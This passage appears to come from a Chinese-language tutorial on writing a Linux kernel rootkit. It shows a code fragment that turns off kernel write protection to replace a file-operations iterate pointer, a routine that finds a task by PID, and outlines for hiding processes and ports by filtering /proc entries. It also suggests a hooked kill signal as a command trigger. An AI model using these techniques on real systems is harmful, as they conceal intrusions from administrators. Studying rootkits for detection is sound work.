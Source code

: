 ```
            printk("Changing iterate from %p to %p.\n",     \
                    old, new);                              \
            disable_write_protection();                     \
            f_op->op = new;                                 \
            enable_write_protection();                      \
        }                                                   \
    }while(0)
```

具体使用iterate还是iterate_shared要看具体的内核版本，本次环境为4.15.0，使用的是iterate_shared。



### 进程隐藏

**根据PID获取相应的Task**

```
struct task_struct *
find_task(pid_t pid)
{
	struct task_struct *p = current;
	for_each_process(p) {
		if (p->pid == pid)
			return p;
	}
	return NULL;
}
```

用户态获取进程信息只能通过/proc下的目录来获取

因此结合文件隐藏，把/proc下名字与指定PID相同的文件夹隐藏即可

[参考](https://wohin.me/rootkit/2017/05/11/LinuxRootkitExp-00023.html)

[参考](https://github.com/m0nad/Diamorphine/blob/master/diamorphine.c)

可以结合钩子kill来接收指定信号执行指定命令。



### 端口隐藏

 用户态下隐藏端口信息，也是把`/proc/`下端口相关信息过滤掉。 

| 网络类型 |   对应/proc    |    内核源码文件     | 主要实现函数  |
| :------: | :------------: | :-----------------: | :-----------: |
| TCP/IPv4 | /proc/net/tcp  | net/ipv4/tcp_ipv4.c | tcp4_seq_show |
| TCP/IPv6 | /proc/net/tcp6 | net/ipv6/tcp_ipv6.c | tcp6_seq_show |
| UDP/IPv4 | /proc/net/udp  |   net/ipv4/udp.c    | udp4_seq_show |
| UDP/IPv6 | /proc/net/udp6 |   net/ipv6/udp.c    | udp6_seq_show |

[参考](https://wohin.me/rootkit/2017/05/11/LinuxRootkitExp-00024.html)
